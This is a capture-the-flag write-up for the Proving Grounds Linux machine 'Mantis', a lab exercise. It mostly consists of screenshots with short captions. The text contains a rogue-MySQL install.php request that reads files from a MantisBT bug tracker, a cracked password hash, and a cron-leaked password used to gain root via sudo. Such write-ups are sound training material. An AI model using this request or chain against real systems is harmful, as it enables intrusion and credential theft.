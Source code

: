 ```yaml
---
title: Mantis
date: 2025-04-24
categories:
- Proving Grounds
- Linux
tags:
- Proving Grounds
- Linux
---
```


# Mantis 🔸
<!-- more -->

## Enumeration

![](../assets/Pasted%20image%2020250424184602.png)

Web server shows a template of a landing page. `feroxbuster` discovers a `/bugtracker`.

![](../assets/Pasted%20image%2020250424190102.png)

Searching for an exploit, we find [https://mantisbt.org/bugs/view.php?id=23173](https://mantisbt.org/bugs/view.php?id=23173).

## Initial Access

We start the rogue server from [https://github.com/allyshka/Rogue-MySql-Server](https://github.com/allyshka/Rogue-MySql-Server).

![](../assets/Pasted%20image%2020250424231043.png)

Visit `http://192.168.169.204/bugtracker/admin/install.php?install=3&hostname=192.168.45.206`

![](../assets/Pasted%20image%2020250424231110.png)

We can read **config_inc.php** file after seeing it in the mantis repo.

![](../assets/Pasted%20image%2020250424231509.png)

We have the database credentials.

![](../assets/Pasted%20image%2020250424231751.png)
![](../assets/Pasted%20image%2020250424231801.png)

`c7870d0b102cfb2f4916ff04e47b5c6f`

Using `hashcat`.

![](../assets/Pasted%20image%2020250424232138.png)

![](../assets/Pasted%20image%2020250424232201.png)

![](../assets/Pasted%20image%2020250424232243.png)

[https://mantisbt.org/bugs/view.php?id=26091](https://mantisbt.org/bugs/view.php?id=26091)

![](../assets/Pasted%20image%2020250424232546.png)

![](../assets/Pasted%20image%2020250424232853.png)

![](../assets/Pasted%20image%2020250424232940.png)

Get the flag.

![](../assets/Pasted%20image%2020250424233107.png)

## Privilege Escalation

We see a backup script but can't see it; there is a cron job.

![](../assets/Pasted%20image%2020250424233334.png)

Using `pspy64`.

![](../assets/Pasted%20image%2020250424235133.png)

We see the password `BugTracker007`.

![](../assets/Pasted%20image%2020250424235438.png)

`sudo -l` shows that `mantis` has full privileges, so...

![](../assets/Pasted%20image%2020250424235500.png)

## Post Exploitation

Get the flag.

![](../assets/Pasted%20image%2020250424235509.png)
